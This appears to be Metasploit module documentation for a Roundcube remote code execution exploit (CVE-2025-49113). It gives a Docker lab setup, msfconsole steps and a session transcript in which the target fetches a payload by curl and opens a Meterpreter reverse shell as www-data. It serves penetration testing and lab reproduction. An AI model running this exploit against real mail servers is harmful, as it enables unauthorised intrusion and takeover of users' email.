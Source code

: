 ## Vulnerable Application
  This module exploits an authenticated remote code execution vulnerability via a file upload
  endpoint. The vulnerability stems from improper validation of the uploaded filename, which is
  deserialized on the server side without sufficient sanitization. By embedding a PHP serialization
  gadget chain in the filename, an attacker can achieve remote code execution.

  This issue is tracked as CVE-2025-49113. Exploitation results in code execution as the web server
  user.

## Testing
To set up a test environment:
1. Set up an Roundcube.

Create File
`docker-compose.xml`
```
version: '3'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_pass
      MYSQL_DATABASE: roundcube
      MYSQL_USER: roundcube_user
      MYSQL_PASSWORD: roundcube_pass
    volumes:
      - db_data:/var/lib/mysql

  roundcube:
    image: roundcube/roundcubemail:1.5.9-apache
    depends_on:
      - db
    ports:
      - "8080:80"
    environment:
      ROUNDCUBEMAIL_DEFAULT_HOST: <ROUNDCUBEMAIL_DEFAULT_HOST>
      ROUNDCUBEMAIL_SMTP_SERVER: <ROUNDCUBEMAIL_SMTP_SERVER>
      ROUNDCUBEMAIL_SMTP_PORT: 587
      ROUNDCUBEMAIL_SMTP_USER: <ROUNDCUBEMAIL_SMTP_USER>
      ROUNDCUBEMAIL_SMTP_PASS: <ROUNDCUBEMAIL_SMTP_PASS>
      ROUNDCUBEMAIL_DES_KEY: randomstring
      ROUNDCUBEMAIL_DB_TYPE: mysql
      ROUNDCUBEMAIL_DB_HOST: db
      ROUNDCUBEMAIL_DB_USER: roundcube_user
      ROUNDCUBEMAIL_DB_PASSWORD: roundcube_pass
      ROUNDCUBEMAIL_DB_NAME: roundcube

volumes:
  db_data:
```

Execute

`docker compose up`

2. Configure basic networking and confirm that the web service on port 8080 is reachable.
3. Follow the verification steps below.

## Options
No custom options exist for this module.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/roundcube_unauth_rce_cve_2025_49113`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set LHOST <LOCAL_IP>`
6. `set LPORT <LOCAL_PORT>`
7. `set USERNAME <USERNAME_TO_LOGIN_WITH>`
8. `set PASSWORD <PASSWORD_TO_LOGIN_WITH>`
9. `run`

## Scenarios
### Roundcube Linux Target
```
msf exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_unauth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HOST                        no        The hostname of Roundcube server
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   TIMEOUT    3                no        Time to wait for session (in seconds)
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux

msf exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > exploit

[*] Started reverse TCP handler on 192.168.159.129:8082 
[*] Using URL: http://192.168.159.129:9696/
[*] Fetching CSRF token...
[*] Attempting login...
[+] Login successful.
[*] Preparing payload...
[+] Payload successfully generated and serialized.
[*] Uploading malicious payload...
[*] Client 192.168.181.148 (curl/7.74.0) requested /
[*] Sending payload to 192.168.181.148 (curl/7.74.0)
[*] Sending stage (3045380 bytes) to 192.168.181.148
[*] Meterpreter session 1 opened (192.168.159.129:8082 -> 192.168.181.148:56528) at 2025-06-06 21:05:59 -0400
[+] Exploit attempt complete. Check for session.
[*] Server stopped.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer     : dante.local
OS           : Debian 11.5 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
